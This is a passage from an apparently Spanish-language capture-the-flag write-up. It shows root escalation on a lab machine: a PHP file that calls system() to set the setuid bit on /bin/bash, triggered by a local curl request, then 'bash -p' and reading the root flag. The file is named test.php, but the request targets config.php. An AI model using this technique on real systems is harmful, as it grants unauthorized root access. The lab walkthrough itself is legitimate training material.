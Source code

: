 Entonces, si colocamos un archivo con el siguiente contenido dentro de la carpeta en la que tenemos permisos:

```php
<?php
  system("chmod u+s /bin/bash");
?>
```
{: file="test.php" }


y le mandamos una petición al mismo desde el servidor web:

```bash
albert@alert:/opt/website-monitor/config$ curl -v http://127.0.0.1:8080/config/config.php
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /config/config.php HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Host: 127.0.0.1:8080
< Date: Tue, 01 Apr 2025 19:54:32 GMT
< Connection: close
< X-Powered-By: PHP/7.4.3-4ubuntu2.24
< Content-type: text/html; charset=UTF-8
< 
* Closing connection 0
albert@alert:/opt/website-monitor/config$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ahora podemos simplemente hacer `bash -p` y tomar la última flag.

```bash
albert@alert:/opt/website-monitor/config$ bash -p
bash-5.0# cd /root
bash-5.0# ls -la
total 32
drwx------  5 root root 4096 Apr  1 16:46 .
drwxr-xr-x 18 root root 4096 Nov 14 10:55 ..
lrwxrwxrwx  1 root root    9 Oct 12 03:03 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Nov  5 11:49 .cache
drwxr-xr-x  3 root root 4096 Nov 19 14:21 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Apr  1 16:46 root.txt
drwxr-xr-x  3 root root 4096 Nov  6 12:37 scripts
bash-5.0# cat root.txt
40dc25997277403be2896b30eb******
```